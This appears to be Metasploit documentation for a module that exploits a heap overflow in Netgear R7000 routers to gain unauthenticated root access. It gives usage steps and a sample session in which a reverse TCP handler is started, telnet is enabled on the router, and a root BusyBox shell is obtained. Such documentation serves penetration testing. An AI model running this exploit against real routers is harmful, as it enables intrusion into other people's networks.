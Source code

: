 ## Introduction
This module exploits an heap buffer overflow in the `genie.cgi?backup.cgi`
page of Netgear R7000 routers running firmware versions `1.0.11.116` and prior.
Successful exploitation results in unauthenticated attackers gaining
code execution as the `root` user.

The exploit utilizes these privileges to enable the telnet server
which allows attackers to connect to the target and execute commands
as the `admin` user from within a BusyBox shell. Users can connect to
this telnet server by running the command `telnet *target IP*`.


## Vulnerable Application

Netgear R7000 routers running firmware version `1.0.11.116` and earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_backup_cgi_heap_overflow_rce`
  3. Do: `set RHOST <RouterIP>`
  5. Do: `exploit`
  6. Wait for the message about how to connect to the telnet shell to appear.
  7. Connect to the telnet shell by executing `telnet <RouterIP>`
  8. Verify that you now have a BusyBox shell running as the `admin` user.

## Options

## Scenarios

### Netgear R7000 with Firmware Version 1.0.11.116
```
msf6 > use exploit/linux/http/netgear_r7000_backup_cgi_heap_overflow_rce
[*] No payload configured, defaulting to linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/http/netgear_r7000_backup_cgi_heap_overflow_rce) > show options

Module options (exploit/linux/http/netgear_r7000_backup_cgi_heap_overflow_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.31.193.138   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Netgear R7000


msf6 exploit(linux/http/netgear_r7000_backup_cgi_heap_overflow_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf6 exploit(linux/http/netgear_r7000_backup_cgi_heap_overflow_rce) > check

[*] Router is a NETGEAR router (R7000)
[+] 192.168.1.1:80 - The target is vulnerable.
msf6 exploit(linux/http/netgear_r7000_backup_cgi_heap_overflow_rce) > exploit

[*] Started reverse TCP handler on 172.31.193.138:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Router is a NETGEAR router (R7000)
[+] The target is vulnerable.
[*] Sending 10th and final packet. The exploit should hang at this point.
[*] Connect to the telnet shell by running: telnet 192.168.1.1
[+] Exploit complete, connect to your shell!
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/netgear_r7000_backup_cgi_heap_overflow_rce) >
```

And in a separate terminal shell:

```
 ~  telnet 192.168.1.1                                                                                             ✔ │ 2.6.6 Ruby
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused
 ~ ******* WAIT A BIT FOR EXPLOIT TO COMPLETE ******
 ~  telnet 192.168.1.1                                                                                           1 х │ 2.6.6 Ruby
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.


BusyBox v1.7.2 (2020-12-21 13:01:11 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id
uid=0(admin) gid=0(root)
# uname -a
Linux R7000 2.6.36.4brcmarm+ #30 SMP PREEMPT Mon Dec 21 12:35:01 CST 2020 armv7l unknown
#
```




